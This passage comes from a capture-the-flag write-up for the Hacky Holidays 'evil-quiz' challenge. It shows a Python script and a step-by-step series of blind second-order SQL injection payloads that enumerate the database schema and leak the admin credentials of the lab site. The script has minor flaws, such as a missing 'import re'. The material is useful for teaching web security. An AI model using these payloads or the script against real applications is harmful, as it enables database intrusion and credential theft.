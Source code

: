 This confirms we have 2nd order injection because the pyload made condition true for all the currently registered users. We can mimic the above behavior with python script so that we don't have to do it manually.

```python
import requests 

s = requests.Session() 
URL = "https://hackyholidays.h1ctf.com"

SET_USERNAME_URL = URL + "/evil-quiz"
TAKE_QUIZ_URL = URL + "/evil-quiz/start"
SCORE_URL = URL + "/evil-quiz/score"

def get_session():

    s.get(SET_USERNAME_URL, allow_redirects=False)
    r = s.post(SET_USERNAME_URL, data={"name":"test-get-session"}, allow_redirects=False)
    s.post(TAKE_QUIZ_URL, data={"ques_1":0,"ques_2":"0","ques_3":0}, allow_redirects=False)
    s.get(SCORE_URL,allow_redirects=False)
    print "[+] Session successfully created ", r.headers["Set-Cookie"]
    
def sqli(username):

    s.post(SET_USERNAME_URL, data={"name":username}, allow_redirects=False)
    r = s.get(SCORE_URL)  
    data =  re.search("There is (.*) othe", r.text)
    if data:
      print data.group(1)
      return data.group(1)
    else:
      print "ERROR nothing found", r.text
        
get_session() # Play game once to get user session (Cookie: session)
res = sqli("1' or '1' = '1") # Try sqli and print the numbers matching query.
### res = 0 means injection is false or Un-successful. Any other value means true ###
```
### Solution

After confirming the injection, Our end goal is to leak the admin credentials from the database.

[solver-h1-ctf-flag-9.py](/website/assets/files/h1-ctf-flag-9.py) is the python script to automate the complete sql-injection and leak the admin credentials. It has detailed comments about every step of attack.

TL;DR on how the injection works:
* database name => `quiz`
    * username = `1' or database() = 'quiz'#` will return true.
* Table-1 => `admin`, Table-2 = `quiz`
    * username = `1' OR (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1) like 'admin'#` returns true
    * username = `1' OR (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1) like 'quiz'#` returns true
* columns of table admin => `id`, `username` and `password`
    * username = `1' OR (select column_name from information_schema.columns where table_schema=database() and table_name='admin' limit 0,1) like 'id'#` leaks column-1 = 'id'
    * username = `name=1' OR (select column_name from information_schema.columns where table_schema=database() and table_name='admin' limit 1,1) like 'username'#` leaks column-2 = 'username'
    * username = `name=1' OR (select column_name from information_schema.columns where table_schema=database() and table_name='admin' limit 2,1) like 'password'#` leaks column-3 = 'password'
* 1st entry of the table admin => `username=admin` `password=S3creT_p4ssw0rd-$`
    * username = `' OR (select username from admin)="admin"#` leaks username='admin'
    * username = `' OR (select password from admin)= "S3creT_p4ssw0rd-$" #` leaks password='S3creT_p4ssw0rd-$'
